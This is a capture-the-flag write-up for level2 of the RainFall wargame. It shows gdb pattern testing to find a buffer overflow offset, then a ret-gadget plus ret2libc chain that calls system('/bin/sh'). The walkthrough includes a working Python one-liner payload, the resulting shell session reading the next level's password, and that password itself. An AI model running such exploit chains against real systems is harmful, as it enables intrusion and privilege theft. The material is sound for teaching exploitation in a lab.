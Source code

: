 As usual, we tried to find the sweet spot to change the stack with our buffer overflow.
At some point, there was a strange thing : 

>Starting program: /home/user/level2/level2 
>AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS
>AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPJRRRRSSSS
>Program received signal SIGSEGV, Segmentation fault.
>0x4b4b4b4b in ?? ()

It was pointing inside our buffer (the KKKK) but we couldn't make any of our shellcode work. So we tried to go further

>AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUU
>AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUU
>Program received signal SIGSEGV, Segmentation fault.
>0x55555555 in ?? ()

Now, we are good. There is one more thing to handle : 

``` c
  if ((local_res0 & 0xb0000000) == 0xb0000000) {
```

We needed to provide an address that doesn't start by `0xb` id-est, in our case, that is not in the stack. To do so, we use a feature of asm :
The `ret` command, in fact, hide `pop eip` followed by `jmp`. So, we provide the address of a `ret` (here the one in main, obtained by `disas main` in gdb) followed by a call to `sytem("/bin/sh")`. This way, we overwrite `eip` that was supposed to be stored after the `ret` and we call `system`

>level2@RainFall:~$ cat <(python -c 'print "A" * 80  + "\x4b\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "IDGB" + "\x58\xcc\xf8\xb7"') - | ./level2
>AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPKRRRRSSSSTTTTK`��IDGBX���
>whoami
>level3
>cat /home/user/level3/.pass
>492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

```bash
su level3
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

